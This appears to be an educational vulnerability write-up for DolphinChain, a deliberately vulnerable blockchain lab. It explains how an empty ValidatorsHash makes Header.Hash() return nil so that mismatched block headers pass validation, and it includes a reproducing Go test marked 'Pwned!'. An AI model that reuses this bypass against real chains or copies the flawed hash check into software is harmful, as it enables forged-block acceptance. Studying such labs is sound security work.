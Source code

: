 # 1. [DC-05] Improper Check of Header

## 1.1. Tag

`header`;

`validate`;

## 1.2. Vulnerability description

Improper Check of Header

while the block header is checked, the legality of the block and signed block will be checked. But the code check `ValidatorsHash` improperly, ignoring the `lite` client. For `lite` client will not add `ValidatorsHash` when it sends the message to the nodes, that's to say, `ValidatorsHash` is always empty for `lite` client, which make different block bypass the check.

## 1.3. Vulnerability analysis

```go
func ValidateBlock(meta *types.Block, sh types.SignedHeader) error {
    if meta == nil {
        return errors.New("expecting a non-nil Block")
    }
    err := ValidateHeader(&meta.Header, sh) // XuanMao: track
    if err != nil {
        return err
    }
    if !bytes.Equal(meta.Data.Hash(), meta.Header.DataHash) {
        return errors.New("Data hash doesn't match header")
    }
    return nil
    }
```

```go
func ValidateHeader(head *types.Header, sh types.SignedHeader) error {
    if head == nil {
        return errors.New("expecting a non-nil Header")
    }
    if sh.Header == nil {
        return errors.New("unexpected empty SignedHeader")
    }
    // Make sure they are for the same height (obvious fail).
    if head.Height != sh.Height {
        return errors.New("Header heights mismatched")
    }
    // Check if they are equal by using hashes.
    if !bytes.Equal(head.Hash(), sh.Hash()) {//XuanMao: Track
        return errors.New("Headers don't match")
    }
    return nil
}
```

```golang
func (h *Header) Hash() cmn.HexBytes {
 if len(h.ValidatorsHash) == 0 {  // Track
     return nil
 }
```

## 1.4. Reproduce

Here we use the testing script `hdr_test.go` to test. You can create a file anywhere named `hdr_test.go` and copy the content below, run it in the terminal.

### 1.4.1. Use go test script to test

```golang
// hdr_test.go
// XuanMao: bug test
package hrd_validate

import (
    "testing"
    "time"
    "bytes"

    "github.com/XuanMaoSecLab/DolphinChain/lite/proxy"
    "github.com/XuanMaoSecLab/DolphinChain/types"
)

func TestLiteValidationIsFallacious(t *testing.T) {
    block := &types.Block{
        Header: types.Header{
            Height: 11,
            Time:   time.Date(2018, 1, 1, 1, 1, 1, 1, time.UTC),
        },
        Data: *new(types.Data),
    }
    t.Log(block)
    commit := types.SignedHeader{
        Header: &types.Header{
            Height: 11,
            Time:   time.Date(2017, 1, 1, 1, 1, 1, 1, time.UTC),
        },
    }
    t.Log(commit)
//
    if err := proxy.ValidateBlock(block, commit); err == nil {
        t.Log(commit.Hash())
        t.Errorf("Pwned!")
    }
}

func TestHeaderFails(t *testing.T) {
    tests := []struct {
        hdr         *types.Header
        wantNilHash bool
    }{
        {hdr: nil, wantNilHash: true},
        {hdr: &types.Header{}, wantNilHash: true},
        {
            hdr: &types.Header{
                Height: 100,
                Time:   time.Now().UTC(),
            },
            wantNilHash: false,
        },
        {
            hdr: &types.Header{
                Height: 100,
                Time:   time.Now().UTC(),
            },
            wantNilHash: false,
        },
        {
            hdr: &types.Header{
                Height: 111,
                Time:   time.Date(2018, 12, 2, 1, 1, 3, 1, time.UTC),
            },
            wantNilHash: false,
        },
    }

    for i, tt := range tests {
        hdr := tt.hdr
        if hdr == nil {
            hdr = new(types.Header)
        }
        hash := hdr.Hash()
        if g, w := bytes.Equal(hash, nil), tt.wantNilHash; g != w {
            t.Errorf("#%d: gotIsNilHash=%v gotHash=(% X) wantNil=%v", i, g, hash, w)
        }
    }
}

```

### 1.4.2. Testing result

```sh
[root@ main]# go test -v -run=TestLiteValidationIsFallacious
=== RUN   TestLiteValidationIsFallacious
--- FAIL: TestLiteValidationIsFallacious (0.00s)
    hdr_test.go:21: Block{
          Header{
            Version:        {0 0}
            ChainID:        
            Height:         11
            Time:           2018-01-01 01:01:01.000000001 +0000 UTC
            NumTxs:         0
            TotalTxs:       0
            LastBlockID:    :0:000000000000
            LastCommit:     
            Data:           
            Validators:     
            NextValidators: 
            App:            
            Consensus:       
            Results:        
            Evidence:       
            Proposer:       
          }#
          Data{
            
          }#
          EvidenceData{
            
          }#
          nil-Commit
        }#
    hdr_test.go:28: SignedHeader{
          Header{
            Version:        {0 0}
            ChainID:        
            Height:         11
            Time:           2017-01-01 01:01:01.000000001 +0000 UTC
            NumTxs:         0
            TotalTxs:       0
            LastBlockID:    :0:000000000000
            LastCommit:     
            Data:           
            Validators:     
            NextValidators: 
            App:            
            Consensus:       
            Results:        
            Evidence:       
            Proposer:       
          }#
          nil-Commit
        }
    hdr_test.go:31: 
    hdr_test.go:32: Pwned!
FAIL
exit status 1
FAIL    github.com/XuanMaoSecLab/DolphinChain/reproduce/main    0.070s

```

## 1.5. Fix

For it can not be exploited directly, no fix temporarily.

## 1.6. Reference

Vulnerable code from : [Hash verification](https://github.com/tendermint/tendermint/blob/c8a2bdf78ba7aaaf4284fa78c1b9b05c5e7342bc/types/block.go#L179-L181)

You can check related issue [here](https://github.com/tendermint/tendermint/issues/1302).
